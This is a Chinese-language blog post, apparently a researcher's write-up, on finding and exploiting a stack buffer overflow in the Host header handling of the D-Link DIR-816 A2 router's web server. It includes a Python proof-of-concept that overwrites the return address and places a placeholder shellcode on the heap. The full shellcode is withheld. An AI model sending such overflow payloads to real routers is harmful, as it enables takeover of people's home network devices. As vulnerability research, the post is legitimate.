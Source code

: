 ```yaml
---
title: Dlink DIR-816 stack-based buffer overflow anaysis
categories:
  - exploit
tags: router-exploitation
published: true
---
```


# Introduction

在 [sakura](http://eternalsakura13.com/) 师傅的指导下开始尝试挖掘路由器的漏洞。

本文描述了作者对 Dlink DIR-816 A2 型号的路由器固件进行分析从触发 crash 到完整的漏洞利用过程，漏洞已提交厂商，
尚未获得厂商回复，安全起见这里只描述一下思路，不放出最终漏洞利用代码。

之前尝试 qemu 模拟路由器 web 服务运行达不到较好的效果，大部分无法直接运行。按照 0day 路由器那本书上的第一个
实验对象 DIR-815 的缓冲区溢出实验给出的步骤而进行环境修复最后勉强跑起来，但是无法响应请求。。，之后又试了下
totolink 的一款路由，环境修复后发现可以正常运行，尝试发送一个请求，然后惊奇的发现 web 目录是空的。。可能以我目
前的水平用 qemu 无法做到较好的调试。所以我就直接上京东看了下销量靠前的 D-link 路由器（看了下 D-link 的 cve
比较多可能比较好挖）然后买了个二手的 DIR-816，sakura 师傅说直接逆向开挖，然后就直接开始分析。

# Firmware Analysis - trigger crash

从 [Dlink官网](http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816) 下载A2型号最新版本的固件，
对固件进行解包后浏览了下目录，发现 goahead web应用程序，直接开始逆向分析，从 main 函数入手，想着先找一个 auth
bypass 试试。这里不得不称赞一下ida pro，用 radare2 和 ida pro 分别分析了一下，ida 体现出了它符号分析与字符串
关联的强大之处，用 radare2 进行分析遇到变量之间进行计算之后得到的数据地址如一些字符串无法标注出来，甚至有些
字符串无法添加到字符串索引中，而 ida 则会将其相关联的字符串标注出来，对理解函数逻辑起到很好的帮助作用。

一开始程序只是做一些初始化的操作，比如启动各种服务，打印一些日志，然后配置网络，监听 80 端口。在处理各种 http
请求之前会先初始一个未登录用户 token, 保存在 `/etc/RAMConfig/tokenid` 中，想着这可能是一个有用的点，就先记着。

![]({{site.baseurl}}/images/18-5-11-1.png)

只靠静态分析这么干看着有些较长的逻辑脑子缓存不够，容易从中间断掉，所以一般还是比较喜欢静态浏览一遍，接着动态一
边调一边看看每个指令，观察每次操作寄存器、内存的变化。最新版的升级固件发行说明是提升无线性能，加强安全管理，
看了下发现其实是删掉了 telnetd，无法直接连上去然后传一个 gdbserver 上去 attach web 进程。不过它的上一个版本有
telnetd，就换成了旧的版本，至于新版本是否修补了旧版本的漏洞暂时不管，只想体验一下成功调试的感觉 T-T。

固件更换完之后设置开启telnetd，然后telnet 连上去空密码登录，tftp 传一个
[gdbserver](https://github.com/rapid7/embedded-tools/tree/master/binaries/gdbserver) ，github 上的这个 7.8 版本
莫名的好用，反而自己重新编译了跟自己 gdb 版本一致的连上去出错。

![]({{site.baseurl}}/images/18-5-11-2.png)

调试器选择的是 gdb + gef，用起来挺顺手，ida 和 radare2 也可以远程调试，但没有那么方便。

![]({{site.baseurl}}/images/18-5-11-3.png)

在 web server 运行中 attach 上去断在了监听 80 端口 socket 连接处。之前一部分初始化操作可以用 gdbserver 直接运行
查看调试，大致是初始了对各种功能请求的 UrlHander。

用 radare2 分析的结果：

![]({{site.baseurl}}/images/18-5-11-4.png)

用 ida 看就可以更清晰的理解这段操作的含义，

![]({{site.baseurl}}/images/18-5-11-5.png)

分别是对 goform、cgi-bin、sharefile 功能请求的函数的初始化。

本想继续跟下去看看登录验证的部分，不过在 main 函数中不好找，处理完各种初始化就开始监听请求，请求发过来之后不知
到往哪断，想起程序名称是 goahead，就上网找 goahead 源码，暂时不知道是什么版本的就把官网上列的 4.x 和 3.x 版本
下下来，参考一下。其实可以断在处理 socket 的前面，一直往后跟，不过这样要跟太多步，当时发现程序有源码，就先看
源码去了。

大致了解了下程序的整个的轮廓，选择断在处理 Url 请求的 `websUrlHanderRequest` 函数处进行分析，本着先找一个登录
验证绕过漏洞的目标，在浏览源码的过程注意到了程序一个处理的逻辑，就是对 http 请求头 Host 字段的值进行判断请求是否
来自本地，若是来自本地的请求则取消登录验证，然后就尝试修改Host字段。用 BurpSuite 抓包进行修改，改成 "localhost"
看看能不能绕过登录验证，发生构造的请求后发现并没有成功。

分析到这里想尝试一下 fuzz 顺便也可以学习一下，在上工具之前先手动 fuzz 了一下，对不同字段进行加长，看看会不会
发生像之前做的实验一样 cookie 过长发生缓冲区溢出了。在试了一通几万字节的字符串无果之后对溢出暂时放下了，回过头来
继续分析程序逻辑，看看之前 Host 字段判断本地具体逻辑，发现好像直接触发 websRedirect Url 跳转了。

然后在没有什么思路的情况下对各种 Url 各种字段尝试，由于一直对 Host 字段耿耿于怀，就对 Host 字段构造了超长字符
串，然后请求认证成功后才能访问的页面这样会触发 Url 跳转，在这里面的逻辑中由于未对复制到栈上的字符串长度进行
限制而产生了栈缓冲区溢出触发了 Crash !!!

来看一下这个 crash 的位置，经过分析漏洞代码是 websRedirect　函数中位于 `0x41EAE4`　位置处的一段代码，对字符串
复制没有长度限制，只是判断遇到空字节或者换行符结束。

![]({{site.baseurl}}/images/18-5-11-10.png)

# Exploitation

怀着激动的心情确认了一下这个 crash 确实是 Host 字段超长引发的溢出，然后开始调利用代码。不得不说漏洞利用是一门
非常具有挑战性的艺术，前面迷茫挖洞耗费的时间只是后面写利用所花费时间的三分之二，不过也有可能是我太菜了QAQ。

路由器是开启了 aslr 的，常规思路找信息泄露然后 rop，发送过去的 Host 在返回请求时会被当成错误提示打印出来，然后分析了一下
字符串复制的逻辑是以换行符和空字符结束，就算字符串是换行符结尾最后还要补一个空字节，所以这里试了一段时间想要泄露
libc 地址后来发现不可行，因为复制完后补了一个空字符，就打印不了后面的信息了。但是这里堆栈是可执行的，而且堆的
地址固定，所以还可以执行 shellcode。

这里发现和以前打 ctf 做 pwn 类型题不一样的是 socket 连接不是一直开启的，每次发送 http 请求后服务器处理完返回一个
数据包 socekt 就关闭了，服务器继续等待下次连接。不能直接执行 `/bin/sh` 来获得 shell，还要执行稍微复杂一点的命令，
看了下其它的路由器栈溢出的利用代码一般是直接执行 telnetd，而这里测试目标最新版本固件是没有 telnetd 的，一直用的是
旧版本的固件，这里就需要比较复杂的 shellcode 了，暂时没有那么强的编写 shellcode 的能力，参照了网上一个弹方向
shell 的 shellcode。

最后是发送了超过 64k 字节大小的 http 请求才在堆上分配了一块内存放置 shellcode 执行成功了，幸运的是最新版本的
固件也存在这个漏洞。

验证一下poc代码：

```
# Tested product: DIR-816 (CN)
# Hardware version: A2
# Firmware version: v1.10B05 (2018/01/04)
# Firmware name: DIR-816A2_FWv1.10CNB05_R1B011D88210.img
#

import socket

p = socket.socket(socket.AF_INET, socket.SOCK_STREAM)                 
p.connect(("192.168.0.1" , 80))

shellcode = "A"*0x200   # *** Not the correct shellcode for exploit ***

rn = "\r\n"
strptr = "\x60\x70\xff\x7f"
padding = "\x00\x00\x00\x00"

payload = "GET /sharefile?test=A" + "HTTP/1.1" + rn
payload += "Host: " + "A"*0x70 + strptr*2 + "A"*0x24  + "\xb8\xfe\x48" + rn
payload += "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0" + rn
payload += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
payload += "Accept-Language: en-US,en;q=0.5" + rn
payload += "Accept-Encoding: gzip, deflate" + rn
payload += "Cookie: curShow=; ac_login_info=passwork; test=A" + padding*0x200 + shellcode + padding*0x4000 + rn
payload += "Connection: close" + rn
payload += "Upgrade-Insecure-Requests: 1" + rn
payload += rn

p.send(payload)
print p.recv(4096)
```

断在堆上的地址 `0x48feb8`　处：

![]({{site.baseurl}}/images/18-5-11-8.png)

运行poc：

![]({{site.baseurl}}/images/18-5-11-9.png)

完整 shellcode 测试结果：

![]({{site.baseurl}}/images/18-5-11-6.png)

![]({{site.baseurl}}/images/18-5-11-7.png)

# Summary

这个漏洞的影响貌似没有那么广，shodan 和 zoomeye
看了下公网没有找到这个型号的路由开放 web 服务，也许是因为默认的配置只在子网中开放 web 服务。
然后比较奇怪的是 D Link 只在中国区找的到这个型号的路由，国外官网貌似没有这款路由
emm.. 希望这能算是挖到漏洞吧 0.0。最后，感谢对我悉心指导的 sakura 师傅，也希望漏洞能提交成功 QVQ 。
